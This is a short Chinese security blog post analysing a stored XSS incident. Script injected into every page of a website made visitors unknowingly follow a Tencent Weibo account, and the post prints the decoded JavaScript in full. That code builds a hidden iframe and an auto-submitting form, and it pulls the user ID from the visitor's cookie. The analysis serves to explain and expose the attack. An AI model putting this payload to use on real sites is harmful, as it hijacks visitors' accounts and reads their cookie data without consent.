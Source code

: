 ```yaml
---
layout: post
title: "存储型XSS应用-微博刷粉"
date: 2016-08-03 11:34:13 +0800
comments: true
categories: security
---
```

目前腾讯监控系统发现space.aili.com存在大量恶意的请求，通过xxx.qq.com以期望达到刷微博粉丝的效果

被插入代码截图如下（每个页面都有，框架被修改）

![](http://jason5.cn/images/xss-weibo1.png)

被插入的恶意代码为：

![](http://jason5.cn/images/xss-weibo3.png)

解码后为:

![](http://jason5.cn/images/xss-weibo4.png)

格式化

```javascript
(function() {
    window.u = "chunxi_lu";
    window.mm = document.createElement("div");
    window.mm.innerHTML = "<iframe style='display:none' name='mj'></iframe><form method='POST' id='mi' action='http://radio.t.qq.com/mini/follow.php' target='mj'><input type='hidden' value='" + window.u + "' name='u'/><input type='hidden' value='" + ((document.cookie.match(/(?:^|\s)uin=o(\d+)/) || ["", ""])[1] | 0) + "' name='uin'/></form>";
    document.body.appendChild(window.mm);
    document.getElementById("mi").submit();
})()
```

innerHTML被修改为

```javascript
<iframe style='display:none' name='mj'></iframe>
<form method='POST' id='mi' action='http://radio.t.qq.com/mini/follow.php' target='mj'>
  <input type='hidden' value='" + window.u + "' name='u' />
  <input type='hidden' value='" + ((document.cookie.match(/(?:^|\s)uin=o(\d+)/) || ["", ""])[1] | 0) + "' name='uin' />
</form>
```

粉丝数刷到3w+

![](http://jason5.cn/images/xss-weibo2.png)
